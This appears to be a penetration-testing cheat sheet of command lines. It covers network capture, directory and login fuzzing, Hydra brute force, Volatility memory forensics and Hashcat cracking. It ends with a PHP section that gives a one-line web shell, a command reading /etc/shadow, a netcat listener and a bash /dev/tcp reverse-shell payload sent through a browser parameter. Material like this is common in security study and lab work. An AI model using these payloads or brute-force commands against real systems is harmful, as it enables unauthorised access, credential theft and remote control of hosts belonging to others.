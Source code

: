 Tshark monitor:
        sudo tshark -i INTERFACE
## Enumeration/fuzzing:
Web server directories:	
	gobuster dir -u $IP -w WORDLIST -o OUTFILE
Linux LinEnum script (add -t for thorough tests):
	./LinEnum.sh -r NAME
Ffuf web fuzzer:
	./ffuf -u http://localhost:5000/login			\
	-w /usr/share/wordlists/metasploit/unix_users.txt:USER	\
	-w /usr/share/dict/wordlist-probable.txt:PASS 		\
	-H "Content-Type: application/x-www-form-urlencoded" 	\
	-d "username=USER&password=PASS" 			\
	-fw 113
Hydra:
	hydra -V -l LOGIN -p PASSWORD TARGET -t 64 PROTOCOL
	-L and -P for login/passwords from files

## Volatility:
OS profile:
	vol.py -f dump.raw imageinfo
	vol.py --profile=? -f dump.raw PLUGIN
Plugins:
	pstree
	dumpfiles
	memdump
	cmdline
Additional flags:
	-S summary.txt
	-p process_number
	-D --dumpdir


## Password cracking:
Hashcat:
hashcat -a 0 -m HASHTYPE -o OUTFILE HASHFILE DICTIONARY
hashcat -a 1 -m HASHTYPE -o OUTFILE HASHFILE DICT1 DICT2
hashcat -a 3 -m HASHTYPE -o OUTFILE -r RULESFILE HASHFILE

Create dictionaries with princeprocessor:
pp --pw-min=# --pw-max=# --elem-cnt-max=# DICT > NEWDICT


## PHP:
Inject general function:
	<?php system($_GET['cmd']);?>
Single commands:
	<?php shell_exec('cat /etc/shadow');?>
Use the injected function via browser:  
	http://example.com/index.php?cmd=whoami	 
Netcat listener:  
	nc -lnvp PORT	
Reverse shell via browser to nc listener:  
	cmd=bash -c 'bash -i >%26 /dev/tcp/IP-ADDRESS/PORT 0>%261'  
